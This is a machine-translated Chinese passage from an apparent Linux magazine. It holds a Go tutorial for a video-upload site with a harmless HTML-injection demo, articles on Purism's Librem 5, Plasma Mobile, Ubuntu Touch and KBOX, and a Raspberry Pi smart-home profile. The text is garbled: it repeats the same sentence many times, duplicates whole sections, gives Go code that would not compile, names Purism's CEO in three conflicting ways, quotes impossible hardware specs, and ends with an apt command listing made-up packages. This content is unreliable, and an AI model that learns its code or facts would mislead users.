以上是我们使用 HTML 模板的方法。这创建一个用于主页的对话框。我们使用 HTML 模板。这创建一个用于主页的对话框。我们使用 HTML 模板。这创建一个用于主页的对话框。我们使用 HTML 模板。这创建一个用于主页的对话框。我们使用 HTML 模板。这创建一个用于主页的对话框。我们使用 HTML 模板。这创建一个用于主页的对话框。我们使用 HTML 模板。这创建一个用于页面的对话框。

## 图 6

```html
<form id="upload-form" type="multipart/form-data" action="upload/" method="post">
    <input type="file" name="file">
    <title>上传</title>
    <input type="submit" value="upload" />
</form>
```

# 跨网络复制数据

```go
func uploadHandler(w http.ResponseWriter, r *http.Request) error {
    err := r.ParseMultipartForm(64 << 20)
```

```go
func http.HandlerFunc("/upload",
homePageHandler(uploadHandler))
```

## 教程

## 编程：Go




### HTTP POST 请求

客户端向 `Web` 服务器发送信息的基本单元是 `HTTP POST` 请求；通常，它们由某些表单生成，并配置用于传输任何类型的数据。`HTML` `form` 中的 `enctype` 字段指定了将应用于数据上的编码类型。通常，编码会执行字符替换（例如将空格替换为字符），我们使用 `multipart/form-data` 是因为我们不希望以任何方式修改数据。



## `LU-Tube`

面向 `Linux` 用户的视频共享平台

### 上传视频

选择文件：`nil`

标题

上传

### 我们的视频

- 每日提示

```html
<span style="position:fixed; font-size: large; color:yellow">在海滩边</span></span>
```

- 每日提示

上述注入攻击是常见的（参见第 57 页方框）且危险的破坏服务器安全的手段。

注入攻击通过 `Go` 的 `HTML` 模板库得到了修复，该库处理了特殊字符。

我们将结果变量存储在一个表单中，以便可以使用。当被调用时，`Go` 将将数据从 `HTTP` 请求传输到程序的内存中。该值将一直存储，直到达到 `RAM` 最大字节数，然后它会将数据存储为临时文件。

多个返回值使得这特别有用。我们应该处理以下情况：

```go
title := request.FormFile("title")
```

```go
if err != nil {
    return err
}
```

如果有错误，我们会立即处理它：

我们需要为视频生成一个唯一的 `ID`。我们利用 `os` 包中的 `TempDir` 函数来实现这一点。该函数用于创建一个会被删除的临时目录。`TempDir` 始终确保目录名称与现有目录冲突。

```go
video, err := request.FormFile("file")
defer video.Close()
```

```go
videodir, err := os.TempDir("video", "")
defer os.RemoveAll(videodir)
```

我们现在可以从视频请求的调用者处下载数据。首先，我们将视频上传到文件：

`TempDir` 在文件系统上创建一个新目录，并返回一个指向该目录路径的字符串，第二个参数是设置目录用户 `ID` 的可选参数。如果有错误，我们必须处理它。

`Form` 的参数是 `HTML` 表单中字段的。它返回文件和一个错误值（带有文件头信息），

下一步是保存视频文件。这可能很复杂，但目前编写一个简单的函数就足够了。我们已经写好了这个函数，所以我们可以使用 `uploadVideo` 完成编写工作。

> 我们需要为视频生成一个唯一的 `ID`，利用 `os` 包中的 `TempDir` 函数。

```go
err := saveVideo(video, id, title, videoFile)
```

我们忽略了它。你应该在这里添加此代码来处理错误。

在这种情况下，立即处理错误可能更好。为 `getErrorMessage` 函数添加一个缓存通道（`cache channel`），这将允许用户显示某些“文件上传错误”的消息。

下一行是一个 `defer` 语句，这是我们尚未遇到过的特殊 `Go` 结构。`defer` 意味着“在函数结束时执行此命令”。这是一种让代码运行的非常有用的方法，无需跳转到函数底部编写它。如果函数有

它应该将用户重定向到他们新视频所在的页面，以便他们立即开始享受。如果还没有返回错误，我们将使用 `nil` 通道向用户信号发生了某些事情

```go
http.Redirect(writer, request, "/video/" + id, )
```

## 防御注入攻击

`Go` 非常擅长保护我们免受注入攻击。当恶意用户尝试向输入字段中插入代码以便绕过安全限制并访问您的系统时。

在图 7 中，我们看到一次良性注入攻击尝试：有人决定为首页标题样式，因此他们在标题字段中添加了 `HTML` 样式。他们没有输入粗体字符，而是在 `<body>` 标签处使用了 `<span style="position:fixed; font-size:large; color:yellow">Richard</span>` 使标题像图像一样固定在页面顶部。在 `HTML` 页面上，我们可能预期这种攻击是成功的。他们的 `HTML` 代码被正确打印，因为像 `<` 和 `>` 这样的特殊字符已被替换为适当的 `HTML` 实体，例如 `&lt;` 和 `&gt;`。

我们使用 `HTML` 模板。如果我们查看数据，即用于上传视频的文件，我们看到它包含了 `HTML` 代码。然而，播放器库足够聪明，将其转换为安全格式并直接渲染，而不允许用户通过 `HTML` 注入流游戏。

```go
http.StatusOK()
return nil
```

将数据拷贝到文件系统

最后一步是编写 `saveVideo` 函数。该函数将接收一个视频结构体和一个作为流（`stream`）的文件：

```go
func saveVideo(video *Video, file io.Reader) (err error) {
}
```

我们需要在文件顶部添加 `import`。

让我们编写函数体。首先我们应该在文件系统中创建一个文件，以便拷贝数据：

```go
videoFile, err := os.Create("/videos/" + video.ID + ".mp4")
defer videoFile.Close()
return err
```

由于我们使用了 `os.Create` 创建文件，我们需要在文件的导入语句中添加 `os`。不要忘记返回错误值。然后我们可以使用 `io.Copy` 将视频数据拷贝到



## `LU-Tube`

面向 `Linux` 用户的视频共享网站

### 上传视频

| | |

### 我们的视频

- 每日提示

我们将从用户处接收的数据写入创建的文件：

```go
err := io.Copy(videoFile, file)
```

现在，我们需要将视频保存到数据。然后我们使用 `os.Create` 创建文件：

```go
videoData, err := os.Create(videoDir + "/data.txt")
defer videoData.Close()
```

最后一步是将标题写入文件，我们可以使用 `WriteString` 方法实现：

```go
err := videoData.WriteString(title)
```

在此处，我们返回错误值：

```go
return err
```

`localhost:8080`

# 概览

- `Purism` 的操作系统：`Pure OS p60`

什么是 `Pure OS`？`Purism` 移动操作系统代表了什么？

- 支持的操作系统：`Plasma Mobile p62`

`Purism Mobile` 提供 `KDE` 移动体验

- 支持的操作系统：`Ubuntu Touch p64`

`Ubuntu` 在 `UUBports` 上运行于 `Librem 5`

- 额外功能：`Android` 版 `Linux p66`

无需 `root` 即可在 `Android` 手机上运行 `Linux`


`Purism` 是一家成立于 2014 年总部位于旧金山的计算机（以及很快将是移动设备）制造商。`Purism` 符合开源自由软件制造的理念，旨在让个人能够轻松地在他们信任并感到安全的设备之间进行选择。它曾筹集了超过 100 万美元（在众筹阶段），以将其专注于安全和隐私的“`Librem`”电脑带市场。除了拥有 20 多名员工外，它还拥有一个全球社区，该社区将隐私、安全和自由视为默认配置。其方法与苹果、谷歌或微软等大公司采用的方法背道而驰，这些公司忽视了产品和隐私安全的重要性。保护数字权利是一项长期挑战。`Purism` 的创始人兼首席执行官 `Juan Andres Luna` 将其描述为“提供一种方便的替代计算环境，以颠覆科技巨头的通用数字惯例”。

## `Purism` 提供了一种方便的替代环境，以颠覆科技巨头的通用数字惯例

高端规格（尽管由于大型制造商的机器，这些规格经常被更新为“最新”和“最强”）。再次强调，隐私和安全是至关重要的，制造和采购决策始终将其作为首要任务。得益于 `PureOS`，他们允许你在机器上运行版本为 0.8 的“`Prometheus`”（目前正处于测试阶段），它基于 `Debian`，并将最佳的隐私保护软件与 `Gnome 3` 以及 `Wayland` 结合，以实现快速、流畅和优的电源管理。套件包含了 `Firefox ESR` 以及热门类别中的其他应用程序，所有应用都经过了完全验证。

目前正在开发中的 `Librem 11` 是一款 11 英寸的“二合一”笔记本电脑，为公司的操作系统提供了一个多功能平台；这是自配备 5 英寸屏幕的 `Librem 5` 以来最有野心的项目。


# 概览

Purism 将 `Librem 5` 描述为“为了民、由民所有，通过真正开放的平台夺回你的数字生活”。没有任何移动设备能匹配 `Purism` 严峻的挑战，但根据规格，他们可能真的实现。`Linux` 社区显然是这么认为的——回归初心，公司筹集了 250 万美元投资来构建一个真正的开放移动设备，支持公司的 `coreboot` 端口和中性版本的 `Linux` 内核。`Linux` 笔记本电脑可以根据选择的操作系统进行订购（如果你有偏好的替代方案，也可以包含完全无隔离的 `QubesOS`）。

## 2018 年 9 月

`Librem 5` 开发套件将于 9 月发货。一个看起来类似于手机的原始 `PCB`，该套件将足以满足产品的内部硬件需求，以授权开发者。

## 2019 年 1 月

一切顺利，随着硬件概念验证，每一年都指日可待。这将首次看到近乎完成的产品，并了解一切是如何整合在一起的。

## 2019 年 3 月

设备将于下个月开始到达支持者手中，`Librem 5` 将正式上市。发布后将持续更新，以提供并改进体验。

`www.libremuser.com` | 59

## 介绍 Purism 的开放手机


### 众筹

没有 `Libre 5` 最终设计的支持者现在可能正在成型。

明年 3 月，支持者将开始收到运行公司自由软件基金会-`PureOS` `Linux` 发行版的 `Purism Libre 5` 手机。公众对后者的投票达到了 250 万美元的关口。这是我们第一次需要询问这是否是一个巨大的信任票，并超过了他们自己的预期。按照惯常做法，公司创始人兼首席执行官 `Todd Weaver` 排除了波动和乐观，指出资金超出预期，超过了制造产品所需的时间——尽管市场对非 `Android` 手机的需求如此巨大，他们总是抱有高期望。

通信部分。`3G` 和 `4G` 平台采用了安全设计，具有防止受欺凌的设计保护。`CPU` 与基带分离，并为摄像头、麦克风、`Wi-Fi/` 蓝牙和基带提供了硬件物理开关。在操作系统方面，该手机支持选择：它不会将你锁定在任何系统中，也不会追踪你。`PureOS` 完全符合自由软件的自由发行指南（`http://bit.ly/FBSDistGuidelines`），且从不发布免费的二进制文件。

某些规格在市场上是独特的，例如用于分离基带的 `NX/M8` `ARM` 架构，以及使手机能够作为输入设备工作的 `USB C` 端口。这不需要额外的硬件，如三星扩展坞。

`Libre 5` 之所以是这样的，原因之一是因为 `Purism` 清楚地如何启用其设备。`Weaver` 解释说，市场充满了想要 `Android` 和 `Apple` 的用户，但这是一个巨大的受众，即不希望被这些平台处理的企业。“我们正在创造获得的自由。”

我们看到 `PureOS` 的采用率将继续增长，主要是因为 `IT` 部门的情况。他们拥有防篡改硬件（即没有二进制源文件），可以在其基础上构建，”`Weaver` 说。“企业和个人在想要原生系统的人群中看到了机会。

### 支持的操作系统

- `Pure OS p60`
  - 什么是 `Pure OS`？`Purism` 移动操作系统代表了什么？

- `Plasma Mobile p62`
  - `Purism Mobile` 提供 `KDE` 移动体验

- `Ubuntu Touch p64`
  - `Ubuntu` 在 `UUBports` 上运行于 `Librem 5`

- `额外功能：Android 版 Linux p66`
  - 无需 `root` 即可在 `Android` 手机上运行 `Linux`


`Purism` 是一家成立于 2014 年总部位于旧金山的计算机（以及很快将是移动设备）制造商。`Purism` 符合开源自由软件制造的理念，旨在让个人能够轻松地在他们信任并感到安全的设备之间进行选择。它曾筹集了超过 100 万美元（在众筹阶段），以将其专注于安全和隐私的“`Librem`”电脑带市场。除了拥有 20 多名员工外，它还拥有一个全球社区，该社区将隐私、安全和自由视为默认配置。其方法与`Apple`、`Google` 或 `Microsoft` 等大公司采用的方法背道而驰，这些公司忽视了产品和隐私安全的重要性。保护数字权利是一项长期挑战。`Purism` 的创始人兼首席执行官 `Juan Andres Luna` 将其描述为“提供一种方便的替代计算环境，以颠覆科技巨头的通用数字惯例”。

### Purism 提供了一种方便的替代环境，以颠覆科技巨头的通用数字惯例

高端规格（尽管由于大型制造商的机器，这些规格经常被更新为“最新”和“最强”）。再次强调，隐私和安全是至关重要的，制造和采购决策始终将其作为首要任务。得益于 `PureOS`，他们允许你在机器上运行版本为 `0.8` 的“`Prometheus`”（目前正处于测试阶段），它基于 `Debian`，并将最佳的隐私保护软件与 `Gnome 3` 以及 `Wayland` 结合，以实现快速、流畅和优的电源管理。套件包含了 `Firefox ESR` 以及热门类别中的其他应用程序，所有应用都经过了完全验证。

目前正在开发中的 `Librem 11` 是一款 11 英寸的“二合一”笔记本电脑，为公司的操作系统提供了一个多功能平台；这是自配备 5 英寸屏幕的 `Librem 5` 以来最有野心的项目。

## Purism 开放手机


### 快速事实

一个基于 `Qt` 的移动操作系统

`Plasma Mobile` 基于 `Qt`，这使其与 `Sailfish` 具有共同点，且与 `Android` 不同，`Plasma Mobile` 在未来将摆脱这些其他平台的束。

随着 `Purism Librem 5` 的上市，开箱即用的体验将围绕 `PureOS` 展开。其核心卖点之一是可以在设备上安装替代的 `Linux` 操作系统。`Linux` 最受欢迎的桌面环境之一是 `KDE`，它在移动领域也有相关努力。


Plasma Mobile 的大部分进展源于 `PureOS` 目标在移动设备上实现完备。它旨在为具有隐私意识的用户提供对其信息和通信的控制权。

此外，`KDE` 董事会——支持 `KDE` 社区任务的非营利组织——一直致力于不同的 `KDE` 项目。他对像 `Librem 5` 这样的可行移动平台的阐述，是 `Linux` 用户可以产生共的。“我们想创建一个 `Plasma Mobile` 平台，让每个人都能根据基础技术，为随身携带的内容贡献想法，”他说。“`Linux` 感觉像在手机上运行已经太久了。”他也呼应了广泛的观点，“它一直不是一个由完全顾及我们利益的组织所拥有的稳定平台。”

`Plasma Mobile` 的诞生始于 `Blue Studio`，向世界（`Gonzalez` 说也包括内部团队）提议 `Plasma Mobile` 是他们在设备上使用的系统。这是第一个 `KDE` 项目，在 2015 年于加利西亚的 `Academy` 大会上宣布，它已成为 `Plasma` 另一个产品。

## 进展中的 Plasma

`KDE Plasma Mobile` 团队迄今面临的挑战是硬件兼容性，涉及围绕 `Android` 和 `iOS` 的许多方面。`Android` 是封闭品牌化的，而 `iOS` 是一个受到严格控制的硬件生态系统，`Gonzalez` 承认还需要大量工作，但 `KDE` 团队已经成功将桌面端的大部分功能迁移到了移动端，因此他们并不认为有巨大的功能鸿沟需要跨越。此外，`Gonzalez` 指出正在开发手机以及我们使用的手机意味着我们正在与多个团队合作。

如果你想要一个 `Plasma Mobile` 参考系统，我们的首选方案是 `KDE` “自己的”参考系统。然而，我们只有在 `Google 5X` 上时才会使用它，即便如此这也不适合胆小者。一个使用 `Plasma OS (QM)` 制作的第三方发行版正在开发中。使用功能矩阵来管理更广泛的设备。功能矩阵用于了解哪些功能在设备上可行，也用于从停产中恢复。

已宣布 `Plasma Mobile` 镜像将在 `Librem 5` 正式上市时提供，尽管如此，`Gonzalez` 确认 `Purism` 和 `KDE` 团队已经在合作，为 2018 年 9 月跳跃的开发板制作 `Plasma Mobile` 镜像。

### 指南

让我们保持联系

对于像 `Librem 5` 这样的产品，可以认为资金是最容易的部分。一个 `Kickstarter` 项目曾来又去，被生产产品的现实情况所吓跑。由于缺乏背景支持，透明度是该领域的关键，因此团队在他们的网站上很好地向支持者更新情况，并提供极其详细的信息。这些对于发现该项目的人来说并不重要，但对于开发者非常重要。

最近的一篇文章列出了一系列关键硬件规格：`Emfast iMX8` 处理器、5.7 英寸分辨率为 `7720x1440` 像素的屏幕、`骁龙` 调制解调器、`蓝牙` 以及 `Omnision OVS640` 摄像头。软件方面提供了频繁的更新。


`Librem 5` 进展报告 - 2018 年 8 月 3 日，`Plasma Mobile` 镜像将可用

由 `Heather Gonzalez` 添加的最新帖子...

由于 `Librem 5` 在几个月里一直处于 `Android` 许多变化的 `GADGET` 状态，关于 `Linux` 在手机上是什么样子的记忆是。

> 引用

大多数 `Librem 5` 用户参加了 `Gonzalez` 的演讲。部分 `Librem 5` 用户在脑海中为你的目的对 `Librem 5` 进行反编译。

与许多 `Linux` 项目不同，`Purism` 的定期博客让支持者和开发者都能保持最新。

## Plasma 的剖析

如果你考虑使用 `KDE Plasma Mobile` 的原因是——可能你只是想尝试（特别是如果你在桌面端使用 `Plasma`），你有几个选择。在 `Nexus 5` 上运行的 `Audio`，你也可以下载用于 `QEMU` 或 `VirtualBox` 的预构建镜像——虽然不是频繁更新的。这将让你了解 `KDE` 在移动设备上的样子。体验强调了在 `Librem 5` 于 2019 年发布之前的可用状态。

- 1 从屏幕底部向上滑动，箭头打开应用程序抽

- 2 开箱即用一套基本应用程序，如 `Firefox` 和 `VLC`

- 3 点击发现图标可以安装应用或更新

- 4 从屏幕顶部滑动打开通知和系统控制

- 5 关键系统指示也位于屏幕顶部，显示当前状态

- 6 全局搜索可用，带有“最近”视图


`Purism` 博客上的三月报告包含 `Librem 5` 进展报告，手机尚未完全启动。这些构建的可用性可能不仅针对 `Librem 5`，还包括 `Plasma Mobile` 在内的项目。`KDE Plasma` 团队继续开发该平台，但还不清楚哪些设备会最终加入。采用在很大程度上取决于硬件支持，专有 `OEM` 可能想要支持它。要获得商业成功，开发跨平台应用程序是可能的。`Plasma` 团队内部一个明确的因素是桌面和移动版本需要手拉手适应。

`Plasma` 团队的更新可以通过 `plasma-devel` 邮件列表以及 `Telegram` 频道获取。项目目前正在寻找对 `Linux` 生态系统和设备硬件有良好理解的人帮助底层集成，以及帮助开发者改进手机特定领域。

最大的挑战是目前没有可以在小屏幕或触摸屏上正常运行的软件。`KDE` 团队一直在开发和推动基于 `Qt` 的 `Kirigami` 框架，旨在实现这一点。

## Purism 的开放手机

很长以来，`Ubuntu` 的未来被认为是一种融合。在其 CEO `Mark Shuttleworth` 的愿景驱动下，`Ubuntu` 的开发和“`Unity`”桌面环境追求单一环境将从数据中心盛直到我们每天使用的手机。`Android` 依赖 `Google`，`iOS` 依赖 `Apple` 等。我们也想构建一个真正的、的 `GNU/Linux` 移动操作系统。你可以关闭手机而在不发布修改的情况下修改它。通过 `Ubuntu`，你可以随心意愿进行修改并从这些改进中受益。我们已经有的一些东西并不意味着我们不应该改进或做出不同。“同样在 `iOS` 和 `Android` 上使用 `Ubuntu` – `ROM` 就像是在问为什么有了 `mac` 和 `windows` 还要用 `Linux`。”社区的建立对这一点至关重要，它取决于开放和仅为社区服务。

## 我们相信移动的未来是远离 Android，Ubuntu 是完美的手机

### 快速事实

两者的兼得

`Ubuntu` 的目标是允许它不仅在小屏幕上运行，还可以作为完整的环境“桌面模式”

尚未结束？`Ubuntu` 社区的未来，`Mark Girard` 宣布 `Ubuntu` 将在 `Linux` 和 `Android` 下继续作为适用于任何形式的单一桌面环境。`Ubuntu` 形成于 2015 年，当时 `Girard` 希望将移动设备带来任何支持的手机和平板电脑。`Ubuntu` 缓慢、独立地增长，然后与 `Canonical` 并肩，由于 `Ubuntu` 社区分支变成了新成立的 `Ubuntu` 基金会。

## Ubuntu Tech 与 Purism

`Librem 5` 是 `Ubuntu Tech` 的机会。通过 `KDE Plasma`，团队正积极与 `Purism` 合作以确保开发工作共同进行。`Girard` 说，通过开发 `Sigma` 这样的手机来拥有 `Ubuntu Tech` 对于想要免费操作系统的人来说是一个理想的方法，“`Purism` 首次与我们合作开发支持良好的社区设备。`Librem` 将是需要 `Android` 系统的其他 `Linux` 基础操作系统的理想硬件。”

这是一个非常重要的事情，不仅对于 `Ubuntu`，对于在许多地方使用 `Android`（`Android` 开源项目）的其他 `Linux` 基础移动操作系统也是如此，`Purism` 在设备硬件层的工作不再受到限制。

`Ubports` 董事会副主席 `Ricardo Mendez` 呼应了这种情绪。`Ricardo Mendez` 说，“早期访问 `Purism` 和 `Ubuntu Tech`，`Ubuntu` 的开发目标是为移动生态系统提供非 `Android` 的操作系统替代方案。我们相信未来是远离 `Android` 的，`Ubuntu Tech` 呈现了完美的手机来引发这场革命。”

当移动现有者占据如此主导地位时，为什么要继续开发？这回到了 `Linux` 哲学：“我们想建立完全独立且开放的东西。”

支持 `Ubuntu Tech` 证明了与其隐私驱动的方法契合。`Purism` 的 CEO `Tony` 说，“`Ubuntu Tech` 完全抛弃了 `Android`，我们的硬件对用户来说是赢家。我们正在工作，并且 `pureOS` 提供的替代方案也可以帮助改进。我们认为这就是我们想说的，‘我们正在构建这个极其协作且前瞻性的’”

# Ubuntu Touch UI 体系

在最近的 `Ubuntu` 发行版中，环境赋予了操作系统“收敛性”。收敛性是一种能够提供手机、平板电脑或传统桌面用户体验的应用，并同时针对触摸输入和键盘/鼠标进行了定制。与深度投入移动端显示的 `GNOME` 和 `KDE` 不同，`Ubuntu` 8 的核心是 `Mir`，它由 `Alan Greifiths` 领导。这是一个极具争议的选择。公司方向的转变可能使 `Mir` 的依赖成为一项重大的进展，而 `Alan` 仍在其中继续开发该平台。


Ubuntu Touch 的设备安装选项比 KDE Plasma Mobile 更多，但兼容手机的范围仍然有限。如果你想尝试 Ubuntu Touch，可以使用 Ubuntu 的 ISO 构建版本和 `ubuntu-emulator`，从多页开发中安装 `apt`，然后运行 `ubuntu-emulator --arch=i386 instance`，最后运行 `ubuntu-emulator run instance` 来启动。

Canonical 非常支持 Ubuntu Touch，并尽可能让工程团队的其他成员参与其中。该公司最近还捐赠了大量设备以协助开发工作。

## 此时，此地

Ubuntu Touch 今日相比于大多数竞争发行版的一个优势是，它已经由 `Bohe` 和 `Meizu` 在真实设备上发布，并且为许多其他 Ubuntu 操作系统提供了安装程序。`Xperia 2`、`Nexus 4`、`5`、`7` 以及 `OnePlus One` 都可以刷入并运行 Ubuntu Touch。

随着设备进入消费者手中——尽管数量相对有限——Ubuntu Touch 在解决“应用鸿沟”（`app-gap`）问题上具有理论优势，这使得它对 `Librem Ubuntu` 用户非常有吸引力。

## 在我们有 iOS 和 Android 的情况下为什么使用 Ubuntu Touch，就像问我们在有 macOS 和 Windows 的情况下为什么使用 Linux


Ubuntu Touch 预装了一套实实的核心应用，涵盖了你对手机可能的所有预期，如拨号器、日历等——以及 Linux 级别的全功能文件浏览器和终端（包括基本的命令行应用程序），此外还有用于导航的 `uNav`、用于邮件的 `Dekko`、`Podcasters`、用于照片编辑的 `Instagram` 以及 `Messenger` 游戏。其他内置了 `Qt Quick Controls` 和 `Ubuntu UI` 工具包，这些工具与 `KDE Plasma Mobile`、`SAFISH` 等其他移动操作系统共享某些特性。

位于 `open.store.io` 的 `OpenStore` 提供浏览 Ubuntu Touch 应用的地方，正如你所看到的，其质量参差不齐，并分为完整应用和 Web 应用。可用应用的数量不可避免地与成熟的移动操作系统相比，这这意味着采用率是由用户适应驱动的——这正是 `Purism Linux` 项目注定要提供帮助的。

- 从屏幕左边缘短滑动可以进入启动器访问应用

- 从屏幕右边缘长滑动可以显示“主”屏幕

- 从屏幕右边缘短滑动可以切换到上一个使用的应用程序

- 从屏幕底部向上滑动可以显示通知和控制开关

## 功能：Android 上的 Linux


## 额外内容：Android 上的 Linux

在不 `Root` 手机的情况下运行 `GNU/Linux`

如果你想在当前的（`Android`）设备上安装 `Linux` 而不丢失其功能，你有几种选择。在你的设备上安装 `Linux` 发行版可以提供大量功能，包括运行原生应用、提供运行命令行工具的方法，甚至运行桌面环境——尽管在 `Android` 设备上这通常是不可行的。如果你在出门在外做某些重要事情之前需要备份，`chroot` 需要宿主机的 `root` 权限，而这在标准的 `Android` 安装中是不可用的。`KBOX` 使用伪造库来模拟这一点，它具有某些局限性。可以在下载和运行 `KBOX` 之前，通过在设备上启动终端模拟器来安装它，但如果你需要更多功能，你确实需要走 `Root` 这条路（`root out route`）。

如果你不想 `Root`（这通常涉及解锁引导加载程序、处理设备并承担保修失效的修改风险），最流行的选项是 `KBOX`（详见 `kevinmore.net/kbox.html`）。

在 `Google Play` 商店提供的 `Linux Deploy` 是 `Android` 的另一种简单解决方案。该应用程序在闪存卡上创建一个磁盘镜像，挂载它并安装 `Ubuntu`。应用的分发允许你与 `Android` 操作系统共同运行 `Linux`。最重要的是，对设备进行的所有更改都是可逆的——可以删除该程序及其组件。

如果你正寻求在 `Android` 上运行 `Linux` 环境，并提供全套标准命令行工具（如 `tar`、`grep` 等）、控制台编辑器（`Vim`、`Nano`）、网络工具（`SSH`、`Droplet`、`Dropbox`）以及开发工具（`C/C++`、`Perl`、`Python`），那么 `Python` 是你的首选。

在支持 `Linux` 的 `Chromebook` 上安装设备是可能的。

可以通过 `chroot` 在一个 `Linux` 发行版之上运行另一个 `Linux` 发行版。遗憾的是，一如既往，使用 `root` 权限时必须格外小心——确保你已经备份了设备数据和商店 `ROM` 镜像！


## 在 Android 设备上安装 KBOX



- 1 安装一个终端模拟器

KBOX 的安装直接在你的设备上通过命令行完成。第一步是从 Google Play 商店安装终端模拟器应用程序，例如 Jack Pavel 开发的 Terminal Emulator。

- 2 下载基础安装程序

KBOX 无法从 Play 商店下载，但文件可以从 kevinmore.net/kbox.html 获取。你需要根据设备下载正确的版本，Arm 或 x86。

- 3 准备安装程序

启动你的终端模拟器，进入目标目录 `/data/data/jackpal/`，拷贝安装（`cd /sdcard/; cp kbox4-install-base-arm kbox4-install-base`）并设置权限（`chmod 755 kbox4-install-base`）。

- 4 运行并完成安装

准备完成后，只需运行二进制文件。完成后，shell 将通过 `/data/data/jackpal.android/kbox4/bin/kbox_shell` 工作，这样就完成了！

### 世界最好的 LINUX 杂志

### 世界最好的 LINUX 杂志

### 世界最好的 LINUX 杂志

# 程序员与创制者的必备指南

实用教程

树莓派


> 70 “核心组件是势识别”

## 内容

+ 70 一个由“手势”控制的智能家居

+ 72 学习如何设置和管理 Pi 网络

+ 76 使用你的 Pi 构建自动化机器

## Pi 项目

## 智能家居


## 智能家居

通过机器学习魔法、传感器和树莓派，赋予了玩具生命。


## Maks

Maks 是华盛顿大学的一名研究生。他对 AI 和创意编程感兴趣。

Maks 的项目是基于简单的想法，让用户控制从灯光到传感器的树莓派。我们使用了拖放界面涉及数据处理和机器学习。实际上，这个智能家居是一个原型，团队希望改进并支持更多。

## 喜欢它吗？

你使用了任何技术让项目变得比想象中更容易吗？

你可以在 Twitter 上关注 Maks，或者查看 [dollhouse](https://github.com/dollhouse)。智能家居将是一个以易于接触的方式展示创新的优秀工具。

## 这个项目的灵感来源？

作为华盛顿大学冬季学期课程的一部分，我们被要求使用传感器和机器学习。我非常喜欢机器人，所以智能家居是一个很棒的主意。

## 它是如何工作的？

MYHOUSE 是一个带有灯光和门的智能家居，可以通过响应手势的特殊控制器进行控制。树莓派从运动传感器学习信息，并使用学习算法判断用户的手势是否是系统已存储的内容。

现在你已经完成了项目，你想更改任何地方或添加更多功能？

## 延伸阅读

Maks 在 [maxorky.com](https://maxorky.com) 记录了一切内容，以及对 MYHOUSE 项目的解释，在那里你可以了解他的原型和酷时钟。

根据手势的值，灯光可以开启或关闭。你可以看到灯光、风扇和声音的视频。代码是用 Python 编写的；它使用多层感知器（MLP）神经网络，利用输入数据执行机器学习框架（函数）。

> 核心组件是由势识别启用的

这一切很有趣！我鼓励大家查看我们的工作并使用这个想法来实现家居！

你有任何人想测试你的项目吗？如果没有立即运行，请不要沮丧。欢迎在 GitHub 仓库提问。

代码编写简单。我们收集加速度计/陀螺仪数据并传递给 MLP。当识别出手势时，家居手势对应预训练特征。如果匹配，将遵循决策树来激活房子内的设备：电视、LED 或扬声器。你可以在我们的 GitHub 站点查看所有代码。

你想做什么样的项目？下一步是什么？


我正在研究 IoT 和 CNC 机器，以探索交互的新方式。在夏天剩余的时间，我将改进 `Processing`，它是 `Summer of Code` 的：[processing.org](https://processing.org)。

## 组件列表

- `树莓派 3` 或 `Pi Zero`
- 两个`舵机`
- `连续旋转舵机`
- `7 英寸屏幕`
- `PlayStation Move 控制器`
- `RGB 灯带` (`WS281B`)
- `舵机扩展`

## 现成品

为了让团队专注于项目的软件方面，`Maks` 说他们使用了现成组件。例如，为了打开卧室的风扇，`Sergey` 使用了`连续旋转舵机`。


## Arduino 演示

`Maks` 说他们最初建立了房屋的一部分来展示某些功能特性，如`风扇`、`灯光`和`百叶窗`，并让其在`Arduino`上运行以获得如何适配的想法。


## 准备工作

房子大量的原型制作。`Sergey` 说他们从`纸板原型`开始确定比例。对结果满意后，使用`3D 建模软件`从设计中激光切割部件，最后使用`胶胶板`并通过`卡接连接`连接部件。


## 手势训练器

收集手势的训练数据有助于做出决策。例如，`Maks` 说每个手势的持续时间不需要超过两秒。他们还能确定最佳手势样本范围在 `20` 到 `25` 个：“`网络`对于训练过的用户来说效果非常好，准确率超过 `95%`。”


## 势识别

首先，让我们确保我们的客户端是安全的。

## 软件包软件包

## 树莓派教程：系统管理员指南

## 为你的树莓派命名

要更改 `Pi` 的名称，你需要设置新的主机，然后编辑文件以反映更改：运行 `hostnamectl set-hostname NEWNAME`，其中你在 `/etc/hosts` 中更新你的树莓派名称，并将主机名更改为匹配 `127.0.1.1`。

在树莓派上编程的 `PIP3` 模块。你可以使用其中许多，但原理是相同的。

```bash
sudo apt-get install -qy python3-numpy python3-pip python3-dev libdbus-1-dev gnome-schedule python3-pyqt5 python3-qt5 python3-pyqt5.qt5 python3-dev lib-tools-tool
sudo apt-get install guvi python3-osc-ler pillow requests outtib pipystaller codec-i2c-tether codebug-
